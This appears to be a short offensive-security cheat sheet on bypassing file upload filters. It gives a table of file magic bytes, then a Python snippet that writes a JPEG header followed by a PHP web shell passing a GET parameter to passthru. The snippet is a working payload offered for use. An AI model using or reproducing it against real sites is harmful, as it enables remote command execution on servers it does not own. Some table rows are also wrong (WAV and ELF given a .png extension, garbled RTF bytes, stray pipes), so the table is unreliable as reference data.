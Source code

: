 # MAgic Bytes number

## following list of magic bytes to bypass file upload restrictions



| File                           | extension | Bytes                                        |
|--------------------------------|-----------|----------------------------------------------|
| .ai                            |           | 25 50 44 46 [%PDF]                           |
| Bitmap graphic                 | .bmp      | 42 4D [BM]                                   |
| Class File                     | .class    | CA FE BA BE                                  |
| JPEG graphic file              | .jpg      | FFD8FF                                       |
| JPEG 2000 graphic file         | .jp2      | 0000000C6A5020200D0A [....jP..]              |
| GIF graphic file               | .gif      | 47 49 46 38 [GIF89]                          |
| TIF graphic file               | .tif      | 49 49 [II]                                   |
| PNG graphic file               | .png      | 89 50 4E 47 .PNG                             |
| WAV audio file                 | .png      | 52 49 46 46 RIFF                             |
| ELF Linux EXE                  | .png      | 7F 45 4C 46 .ELF                             |
| Photoshop Graphics             | .psd      | 38 42 50 53 [8BPS]                           |
| Windows Meta File              | .wmf      | D7 CD C6 9A                                  |
| MIDI file                      | .mid      | 4D 54 68 64 [MThd]                           |
| Icon file                      | .ico      | 00 00 01 00                                  |
| MP3 file with ID3 identity tag | .mp3      | 49 44 33 [ID3]                               |
| AVI video file                 | .avi      | 52 49 46 46 [RIFF]                           |
| Flash Shockwave                | .swf      | 46 57 53 [FWS]                               |
| Flash Video .flv               | .flv      | 46 4C 56 [FLV]                               |
| peg 4 video file               | .mp4      | 00 00 00 18 66 74 79 70 6D 70 34 32 [....fty |
| MOV video fi|le                | .mov      | 6D 6F 6F 76 [....moov]                       |
| Windows Video file             | .wmv      | 30 26 B2 75 8E 66 CF                         |
| Windows Audio file             | .wma      | 30 26 B2 75 8E 66 CF                         |
| PKZip                          | .zip      | 50 4B 03 04 [PK]                             |
| GZip                           | .gz       | 1F 8B 08                                     |
| Tar file                       | .tar      | 75 73 74 61 72                               |
| Microsoft Installer .msi       |           | D0 CF 11 E0 A1 B1 1A E1                      |
| Object Code File               | .obj      | 4C 01|                                       |
| Dynamic Library .dll           |           | 4D 5A [MZ]|                                  |
| CAB Installer file             | .cab      | 4D 53 43 46 [MSCF]|                          |
| Executable file .exe           |           | 4D 5A [MZ]|                                  |
| RAR file                       | .rar      | 52 61 72 21 1A 07 00 [Rar!...]|              |
| SYS file                       | .sys      | 4D 5A [MZ]                                   |
| Help file                      | .hlp      | 3F 5F 03 00 "[?_..]"|                        |
| VMWare Disk file               | .vmdk     | 4B 44 4D 56 [KDMV]|                          |
| Outlook Post Office file.pst   |           | 21 42 44 4E 42 [!BDNB]|                      |
| PDF Document                   | .pdf      | 25 50 44 46 [%PDF]|                          |
| Word Document                  | .doc      | D0 CF 11 E0 A1 B1 1A E1|                     |
| RTF Document                   | .rtf      | 7B 5C 72 74 66 31 [{ tf1]|                   |
| Excel Document                 | .xls      | D0 CF 11 E0 A1 B1 1A E1|                     |
| PowerPoint Document .ppt       |           | D0 CF 11 E0 A1 B1 1A E1|                     |
| Visio Document                 | .vsd      | D0 CF 11 E0 A1 B1 1A E1|                     |


## generating shell with header

```python

fh = open('shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
fh.close()
```



tags: #magicnumbers #bytes #bypass #upload #christian 
